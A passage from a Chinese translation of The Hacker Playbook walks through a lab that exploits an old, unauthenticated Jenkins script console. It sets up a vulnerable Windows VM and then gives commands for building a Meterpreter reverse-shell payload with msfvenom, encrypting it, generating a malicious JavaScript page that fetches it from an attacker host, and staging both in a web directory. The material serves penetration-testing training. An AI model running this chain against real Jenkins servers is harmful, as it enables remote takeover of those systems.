 ![](img/5-13.png)
 
*注意：最新版本的 Jenkins 中不存在此漏洞。 2.x 之前的版本在默认情况下是易受攻击的，因为它们未启用 CSRF 保护（允许对脚本进行无验证调用），并且未启用身份验证。*


**完整的 Jenkins 漏洞利用实验**：

- 我们将构建一个 Jenkins Windows 服务器，以便我们可以复现此攻击。
- 在本地网络上安装具有桥接接口的 Windows 虚拟机。
- 在 Windows 系统上，下载并安装 JAVA JDK8。
- 下载  Jenkins war 包:
    - http://mirrors.jenkins.io/war-stable/1.651.2/ 
- 启动 Jenkins :
    - java -jar jenkins.war 
- 浏览器打开 Jenkins:
    - http://<Jenkins_IP>:8080/
- 测试 Groovy 脚本控制台:
    - http://<Jenkins_IP>:8080/script

在 THP Kali 虚拟机上利用 Jenkins：
> 译者注:专门为本书开发的集成了所有环境的 Kali 虚拟机，本书第一章有介绍。THP 就是 The Hacker Playbook,本书的英文简称。<br>
- 下载 THP Jenkins 漏洞利用工具（ http://bit.ly/2IUG8cs ）。
- 要执行该实验，我们首先需要创建一个 Meterpreter payload：
```shell
msfvenom -p windows/meterpreter/reverse_https LHOST=<attacker_IP> LPORT=8080 -f exe > badware.exe
```
- 加密我们的 Meterpreter 二进制文件：
```shell
cd /opt/generateJenkinsExploit
python3 ./generateJenkinsExploit.py -e badware.exe
```
- 创建我们的恶意 JavaScript 页面命名为`badware.html`：
```shell
python3 ./generateJenkinsExploit.py -p http://<attacker_IP>/badware.exe.encrypted > badware.html
```
- 将加密的二进制和恶意 JavaScript 页面都移动到 Web 目录:
```shell
mv badware.html /var/www/html/
mv badware.exe.encrypted /var/www/html/
```
